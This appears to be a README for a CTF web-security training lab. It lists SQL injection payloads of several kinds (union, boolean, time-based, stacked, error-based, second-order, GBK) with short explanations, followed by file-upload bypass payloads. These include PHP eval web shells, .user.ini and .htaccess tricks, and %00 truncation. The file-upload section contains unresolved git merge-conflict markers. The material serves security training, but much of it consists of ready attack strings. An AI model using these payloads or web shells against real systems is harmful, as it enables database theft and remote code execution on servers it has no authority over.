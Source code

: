 [![License: CC BY-NC-SA 4.0](https://licensebuttons.net/l/by-nc-sa/4.0/80x15.png)](https://creativecommons.org/licenses/by-nc-sa/4.0/)
# CTF_WEB_Training #

* 2021.01.31 SQL注入部分使用了Ajax以提高手工注入的体验
* 2021.02.04 SQL注入部分基本完结，二次注入暂时没有使用Ajax，接下来会补上，然后整理文件结构，再整理几个SQL注入的相关EXP，再写一下总结
* 2021.02.06 SQL注入部分完结
* 2021.02.14 文件上传%00截断需要PHP 5.2的版本，大概之后还需要制作docker
* 2021.02.15 文件上传部分完结

Progress
- [x]  SQL Injection
    - [x]  HTML
    - [x]  Ajax
    - [x]  Number
    - [x]  Char
    - [x]  Boolean
    - [x]  Time
    - [x]  Stacked
    - [x]  Error Reporting
	- [x]  Second Order
	- [x]  GBK
- [x]  File Upload
	- [x]  JS
	- [x]  %00
	- [x]  Competition
	- [x]  Content
	- [x]  MIME
	- [x]  .user.ini
	- [x]  Blacklist
	- [x]  .htaccess
- [ ]  File Inclusion
- [ ]  SSRF
- [ ]  CSRF
- [ ]  XSS
- [ ]  XXE?

<hr />

# SQL Injection #

## Payload ##

* 数字型注入: ``0 union select password from user where username='flag'#``
* 字符型注入：``0' union select password from user where username='flag'#``
* 布尔注入：``1'^(ascii(substr((select password from user where username='flag'),1,1))>0)#``
* 时间注入：``1' union select (ascii(substr((select password from user where username='flag'),1,1))>0) and sleep(1)#``
* 堆叠注入：``1'; select password from user where username='flag'#``
* 报错注入：``1' and updatexml(1,concat('~',substr((select password from user where username='flag'),1,16),'~'),1)#``
* 二次注入：``1' union select password from user where username=0x666c6167#``
* GBK注入：``0�' union select password from user where username=0x666c6167#``

## 总结 ##

MySQL本身的数字包含字符类型
```
select id from user where id=1
select id from user where id='1'
```
这里所加的引号并不会执行SQL语句的执行

而数字型与字符型的区别在于PHP中的SQL语句是否使用了引号来对数据进行闭合

"万能密码"的漏洞环境所使用的SQL语句一般为
```
select * from user where username='$username' and password='$password'
```
再通过判断能否查找到用户，找到用户则判断登入通过
而能查找到用户，返回的值为True，查找不到为False
则可以插入永真逻辑来进行Bypass
```
select * from user where username='' or 1#' and password='$password'
```

而此处的Boolean漏洞环境可以通过用户是否存在作为回显，进行逻辑盲注

时间盲注的利用往往存在于无差别回显的情况下，这时无法通过回显来进行SQL查询的逻辑判断，只能通过时间延迟来进行判断

如果回显的内容为SQL语句查询出的内容，则可以通过联合查询来快速地得到信息，但是需要注意，最好使得原SQL语句无法查询出数据，否则可能会无法回显出联合查询得出的结果

报错注入在于mysqli_error()这个函数的使用

堆叠注入的特殊之处在于：堆叠注入使用的是mysqli_multi_query()，而一般使用mysqli_query()

二次注入的原理在于，插入数据时使用了addslashes()函数，查询时则没有使用addslashes()函数，使得引号插入了查询时的SQL语句

GBK注入的原因是因为GBK编码与addslashes()函数，\作为转义符来转义引号，其十六进制值为0x5C。而GBK编码的高位范围为0x81\~0xFE，低位范围为0x40\~0xFE，在\之前插入一个高位范围的字符，则会被GBK编码将两个字符识别一个GBK字符，从而使得引号进行逃逸

# File Upload #

## Payload ##
<<<<<<< HEAD

## 总结 ##

=======
* JS限制: 禁用JS
* %00截断: ?path=../upload/shell.php%00
* 竞争上传: 
```
<?php
$file='web.php';
$shell='<?php @eval($_POST["pass"]);?>';
$file_put_contents($file, $shell);
?>
```
* 内容检测: 
```
<script language=php>@eval($_POST['pass']);</script>
<?= @eval($_POST["pass"]);?>
```
* MIME
```
Content-Type:image/png
```
* .user.ini
```
#shell.jpg
<?php @eval($_POST["pass"]);?>

#.user.ini
auto_prepend_file=shell.jpg
auto_append_file=shell.jpg
auto_append_file=php://filter/read=convert.base64-decode/resource=shell.jpg
```
* 黑名单
  * 大小写混写(pHp, PhP)
  * 其他后缀名(php, php3, php4, php5, php7, pht, phtml, phps)
* .htaccess(Apache)
```
SetHandler application/x-httpd-php

SetHandler application/x-httpd-p\
hp
```

## 总结 ##
>>>>>>> 521eaedb558cb30729e3aed04dff6839cf23a1ff
